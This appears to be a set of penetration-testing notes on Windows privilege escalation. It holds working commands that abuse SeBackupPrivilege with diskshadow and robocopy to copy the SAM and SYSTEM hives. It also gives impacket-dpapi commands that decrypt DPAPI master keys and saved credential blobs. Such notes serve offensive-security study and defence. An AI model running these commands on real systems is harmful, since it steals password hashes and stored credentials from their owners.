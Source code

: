 
## 1. SeBackUp privilege:

SeBackupPrivilege allows file content retrieval, even if the security descriptor on the file might not grant such access. A caller with SeBackupPrivilege enabled eliminates the need for any ACL-based security check.

The takeaway is that with SeBackupPrivilege enabled, the attacker can backup the entire drive, which includes files that the user with the permission does not have permissions on. From there, the attacker can access any of the files from the backup volume they create.

we will extract a copy of the SAM file  by creating a shadow copy of C: using diskshadow.exe. After creating a shadow copy of C:, we can interact with it and access any file from the file system. Since this is a copy of C:, we can directly access the SAM and SYSTEM files.

```powershell
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii

echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append

echo "create" | out-file ./diskshadow.txt -encoding ascii -append

echo "expose temp z:" | out-file ./diskshadow.txt -encoding ascii -append

diskshadow.exe /s c:\temp\diskshadow.txt
```

Now that the shadow copy has been successfully created and exposed as Z:, we can use the following **robocopy** commands to extract a copy of the SYSTEM and SAM files from Z:\windows\system32\config:


```powershell
robocopy /b Z:\Windows\System32\Config C:\temp SAM

robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM
```




## 2. DPAPI: 

DPAPI is a windows' built-in encryption system for protecting sensitive data — like saved passwords, certificates and secrets — tied to a user or machine


It can protect : 
- Saved Creds (RDP, SMB, VPN)
- Browser Passwords
- Wifi keys
- Outlook, Windows Vault, Credential Manager entries
- chrome cookies 


#### Working Mechanism

1. Data is encrypted with **CryptProtectData()**
2. This uses a Master Key, which is stored encrypted in :
	- `C:\Users\username\appdata\Roaming\Microsoft\Protect\SID\`


3. This MasterKey is encrypted with :
	- The user's password (or)
	- The machine's system key




#### Credential extraction from encrypted Credential blobs


If we have access to a user's password, we can attempt to decrypt their DPAPI masterkey. We can utilise this decrypted masterkey to extract credentials from the encrypted Credential blob stored in : 

```Powershell
C:\Users\username\appdata\Roaming\Microsoft\Credentials\
```



#### Impacket-dpapi


Once we have locally saved the encrypted masterkey and the encrypted credential blob, we can use `impacket-dpapi` to decrypt the credential blob.



1. Decrypting the masterkey

```bash
impacket-dpapi -master <masterkeyfile> -sid SID -password <password_of_the_user>
```



2. Decrypting the credential blob

```bash
impacket-dpapi -key <decrypted_master_key> -cred <encrypted_cred_blob>
